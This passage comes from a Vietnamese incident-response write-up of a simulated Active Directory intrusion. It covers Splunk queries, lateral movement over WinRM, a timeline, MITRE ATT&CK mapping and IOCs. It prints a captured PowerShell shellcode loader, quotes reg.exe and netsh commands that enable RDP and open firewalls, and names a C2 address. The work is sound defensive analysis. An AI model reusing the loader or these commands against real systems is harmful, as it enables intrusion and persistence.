$opBCs = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((bsCE kernel32.dll VirtualAlloc), (pVk @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $eXscR.Length,0x3000, 0x04)

[System.Runtime.InteropServices.Marshal]::Copy($eXscR, 0, $opBCs, $eXscR.length)
if (([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((bsCE kernel32.dll VirtualProtect), (pVk @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool]))).Invoke($opBCs, [Uint32]$eXscR.Length, 0x10, [Ref]$hF)) -eq $true) {
        $f7EA = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((bsCE kernel32.dll CreateThread), (pVk @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$opBCs,[IntPtr]::Zero,0,[IntPtr]::Zero)
        [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((bsCE kernel32.dll WaitForSingleObject), (pVk @([IntPtr], [Int32]))).Invoke($f7EA,0xffffffff) | Out-Null
}
```

Đoạn code trên cấp phát private memory với VirtualAlloc, decode base64 rồi ghi shellcode vào vùng đó, gọi VirtualProtect thay đổi permission của vùng nhằm cho phép thực thi rồi tạo 1 threat thực thi shellcode. Extract shellcode ra và sử dụng scdbg để phân tích:

#### Phân tích shellcode bằng scdbg



Đoạn shellcode này thực hiện kết nối tới 223.247.47.74:443 và nhận dữ liệu trả về, rồi gọi VirtualAlloc rồi tiếp tục gọi recv nhận dữ liệu, nhiều khả năng đây là 1 reverse-shell stub

## Host 2: DC01 (10.0.0.147)

### 2.1 Lateral movement bằng WinRM

```spl
index=shadowroast source="C:\\Logs\\DC01.ndjson" "log.file.path"="C:\\Logs_85712893\\Microsoft-Windows-Sysmon%4Operational.evtx" earliest="08/06/2024:01:18:00" event.code=1
| table _time winlog.event_data.LogonId winlog.event_data.User winlog.event_data.IntegrityLevel winlog.event_data.CurrentDirectory winlog.event_data.ParentProcessId winlog.event_data.ParentImage winlog.event_data.OriginalFileName winlog.event_data.ProcessId winlog.event_data.CommandLine
| sort _time
```



```text
2024-08-06 01:18:18.330  (1612) wsmprovhost.exe -> (4720) reg.exe add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
=> Đổi value fDenyTSConnections thuộc key HKLM\System\CurrentControlSet\Control\Terminal Server (machine wide) thành 0 để enable RDP trên DC01
2024-08-06 01:18:21.901  (3336) wsmprovhost.exe -> (2856) netsh.exe firewall set service remoteadmin enable
=> Thiết lập firewall cho phép quản trị từ xa
2024-08-06 01:18:28.781  (1940) wsmprovhost.exe -> (3276) netsh.exe firewall set service remotedesktop enable
=> Thiết lập firewall cho phép RDP trên DC
```

Ngay sau khi PowerShell 5784 kết nối 5985 trên DC01 (2024-08-06 01:18:12), 3 process được sinh ra từ `wsmprovhost.exe`, chúng đều thực thi dưới user `tcooper` và thực hiện mở RDP, chỉnh rule firewall để cho phép RDP trên DC. Attacker đã thành công lateral movement sang DC01 qua WinRM sử dụng tài khoảng tcooper.

## Host 3: FileServer (10.0.0.161)

### 3.1 Lateral movement bằng WinRM

```spl
index=shadowroast source="C:\\Logs\\FileServer.ndjson" "log.file.path"="C:\\Logs_7284912739\\Microsoft-Windows-Sysmon%4Operational.evtx" earliest="08/06/2024:01:17:00" event.code=1
| table _time winlog.event_data.LogonId winlog.event_data.User winlog.event_data.IntegrityLevel winlog.event_data.CurrentDirectory winlog.event_data.ParentProcessId winlog.event_data.ParentImage winlog.event_data.OriginalFileName winlog.event_data.ProcessId winlog.event_data.CommandLine
| sort _time
```



Trên FileServer, attacker cũng thực hiện đúng 3 lệnh y hệt như bên DC01:

```text
reg.exe add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh.exe firewall set service remoteadmin enable
netsh.exe firewall set service remotedesktop enable
```

### 3.2 RDP từ IP ngoài

```spl
index=shadowroast source="C:\\Logs\\FileServer.ndjson" earliest="08/06/2024:01:17:00" event.code=4624 "tcooper" "winlog.event_data.LogonType"=10
| table _time winlog.event_data.IpAddress winlog.event_data.AuthenticationPackageName winlog.event_data.TargetLogonId winlog.event_data.TargetLinkedLogonId winlog.event_data.TargetUserName winlog.event_data.TargetUserSid
```



Sau đó vào khoảng 2024-08-06 01:19:20, attacker RDP vào FileServer từ một external IP sử dụng credential của user tcooper

### 3.3 Hoạt động trong phiên RDP

```spl
index=shadowroast source="C:\\Logs\\FileServer.ndjson" "log.file.path"="C:\\Logs_7284912739\\Microsoft-Windows-Sysmon%4Operational.evtx" earliest="08/06/2024:01:17:00" event.code=1 "0x1a34c5" OR "0x1a34ec"
| table _time winlog.event_data.LogonId winlog.event_data.User winlog.event_data.IntegrityLevel winlog.event_data.CurrentDirectory winlog.event_data.ParentProcessId winlog.event_data.ParentImage winlog.event_data.OriginalFileName winlog.event_data.ProcessId winlog.event_data.CommandLine
| sort _time
```



Vào 2024-08-06 01:20:44, trên FileServer, attacker khởi chạy powershell vơi đặc quyền cao (integrity level = high), thiết lập thư mục làm việc hiện tại = C:\Shares (là một thư mục thường được người dùng hoặc quản trị viên hệ thống tạo ra trên ổ cứng C của máy tính Windows để làm nơi lưu trữ tập trung các tài liệu muốn chia sẻ qua mạng nội bộ (LAN)) và duy trì cửa sổ powershell.

```spl
index=shadowroast source="C:\\Logs\\fileserver.ndjson" "log.file.path"="C:\\Logs_7284912739\\Microsoft-Windows-Sysmon%4Operational.evtx" earliest="08/06/2024:01:20:00" winlog.event_data.ProcessId=6948 OR winlog.event_data.SourceProcessId=6948
| stats count by event.code
```

```spl
... winlog.event_data.ProcessId=6948 OR winlog.event_data.SourceProcessId=6948 event.code=11
| table _time winlog.event_data.TargetFilename
```





Process 6948 tạo `C:\Users\Default\AppData\Local\Temp\CrashDump.zip` vào lúc 2024-08-06 01:21:04.278, giả thuyết ở đây là attacker thu thập/đánh cắp các tệp/thư mục được chia sẻ nội bộ và nén vào một tệp zip để chuẩn bị tuồn ra ngoài

# Timeline

| Timestamp | Host | Sự kiện | 
|---|---|---|
| 2024-08-06 01:03:38 | Office-PC | user `sanderson` đăng nhập  | 
| 2024-08-06 01:05:11.925 | Office-PC | `AdobeUpdater.exe` (ab.exe) được khởi chạy | 
| 2024-08-06 01:05:17.968 | Office-PC | AdobeUpdater.exe kết nối tới C2 `223.247.47.74:80` | 
| 2024-08-06 01:05:58.546 | Office-PC | AdobeUpdater.exe tạo Run key thực hiện Persistence  |
| 2024-08-06 01:07:09-2024-08-06 01:07:19 | Office-PC | Drop `BackupUtility.exe` (Rubeus), `SystemDiagnostics.ps1` (PowerView), `DefragTool.exe` (mimikatz) vào Temp của user Default | 
| 2024-08-06 01:07:40-2024-08-06 01:08 | Office-PC | recon AD với PowerView | 
| 2024-08-06 01:10:45.053 | Office-PC | `BackupUtility.exe asreproast /format:hashcat` (Rubeus) |
| 2024-08-06 01:10:48.257-2024-08-06 01:10:48.379 | DC01 | 4 AS-REQ với không pre-auth cho 4 tài khoản Administrator, tcooper, FileShareService, sanderson | 
| 2024-08-06 01:13:28 | Office-PC | sử dụng tài khoản tcooper thông qua runas | 
| 2024-08-06 01:14:08.475 | Office-PC | `AdobeUpdater.exe` thành công leo thang đặc quyền lên SYSTEM và spawn ra cmd.exe | 
| 2024-08-06 01:14:46.864 | Office-PC | process mimikatz (5740) chạy dưới danh tính của SYSTEM |
| 2024-08-06 01:15:18.616 | Office-PC | process mimikatz (2376) chạy dưới danh tính của tcooper | 
| 2024-08-06 01:15:21.855 | DC01 | Event 4929 với source là office-pc cho thấy dấu hiệu dcshadow | 
| 2024-08-06 01:17:03-2024-08-06 01:17:47 | Office-PC | powershell 5784 kết nối tới FileServer trên port 5985 (WinRM) | 
| 2024-08-06 01:17:06-2024-08-06 01:17:46 | FileServer | attacker lạm dụng WinRM thực hiện bật RDP (`fDenyTSConnections`), mở firewall remoteadmin/remotedesktop | 
| 2024-08-06 01:18:12-2024-08-06 01:18:30 | DC01 | powershell 5784 kết nối tới DC01 trên port 5985 (WinRM) | 
| 2024-08-06 01:18:18-2024-08-06 01:18:28 | DC01 | attacker lạm dụng WinRM thực hiện bật RDP (`fDenyTSConnections`), mở firewall remoteadmin/remotedesktop |
| 2024-08-06 01:19:20.137 | FileServer | RDP vào FileServer từ `223.247.47.74` sử dụng tài khoản tcooper|
| 2024-08-06 01:20:44 | FileServer | khởi chạy powershell tại `C:\Shares` | 
| 2024-08-06 01:21:04.278 | FileServer | tạo `C:\Users\Default\AppData\Local\Temp\CrashDump.zip` | 
| 2024-08-06 03:52:54 | Office-PC | sanderson đăng nhập lại  | 
| 2024-08-06 03:53:42-2024-08-06 03:53:55 | Office-PC | persistence trong run key kích hoạt |

---

# Mitre att&ck

| Tactic | Technique | Bằng chứng |
|---|---|---|
| Execution | T1204.002 User Execution: Malicious File | sanderson chạy `AdobeUpdater.exe` từ thư mục Downloads |
| Execution | T1059.001 PowerShell | Sử dụng powershell thực thi payload |
| Persistence | T1547.001 Registry Run Keys | Run key `wyW5PZyF` |
| Persistence | T1133 External Remote Services | Bật RDP trên DC01 và FileServer |
| Defense Impairment | T1207 Rogue Domain Controller | DCShadow |
| Privilege Escalation | T1134.001 Token Impersonation/Theft | Named pipe impersonation `ekfqny` |
| Privilege Escalation | T1078.002 Valid Accounts: Domain Accounts | Dùng tài khoản `tcooper` bị crack |
| Stealth | T1036.005 Masquerading: Match Legitimate Resource Name or Location | `AdobeUpdater.exe`, `BackupUtility.exe`, `DefragTool.exe`, `SystemDiagnostics.ps1`, `CrashDump.zip` |
| Stealth | T1027.011 Fileless Storage, T1027 Obfuscated Files | Giấu payload trong `HKCU:Software\EdI86bhr`, payload bị obfuscate nhiều tầng |
| Defense Impairment | T1686.003 Disable or Modify System Firewall: Windows Host Firewall  | `netsh firewall set service remotedesktop/remoteadmin enable` |
| Defense Impairment | T1112 Modify Registry | `fDenyTSConnections = 0` |
| Credential Access | T1558.004 AS-REP Roasting | Rubeus `asreproast` |
| Credential Access | T1110.002 Password Cracking | rubeus: format:hashcat  |
| Discovery | T1087.002, T1069.002, T1615 | PowerView |
| Lateral Movement | T1021.006 Windows Remote Management | `wsmprovhost.exe` spawn ra các process bật RDP, chỉnh firewall|
| Lateral Movement | T1021.001 Remote Desktop Protocol | RDP vào FileServer từ external IP sử dụng tài khoản crack được |
| Command and Control | T1071.001 Web Protocols | `223.247.47.74:80`, `:443` |
| Collection | T1560 Archive Collected Data, T1005 Data from Local System | `CrashDump.zip` từ `C:\Shares` |

# IOC

| Loại | Giá trị |
|---|---|
| IP  | `223.247.47.74`  |
| File | `C:\Users\sanderson\Downloads\AdobeUpdater.exe`, `BackupUtility.exe` (Rubeus), `DefragTool.exe` (mimikatz), `SystemDiagnostics.ps1` (PowerView), `CrashDump.zip` |
| Registry | `HKU\<sanderson SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\wyW5PZyF`, `HKCU:Software\EdI86bhr` (value `OQqd5sjJ`) |
| Named pipe | `\ekfqny` |
| Tài khoản | `sanderson` , `tcooper` |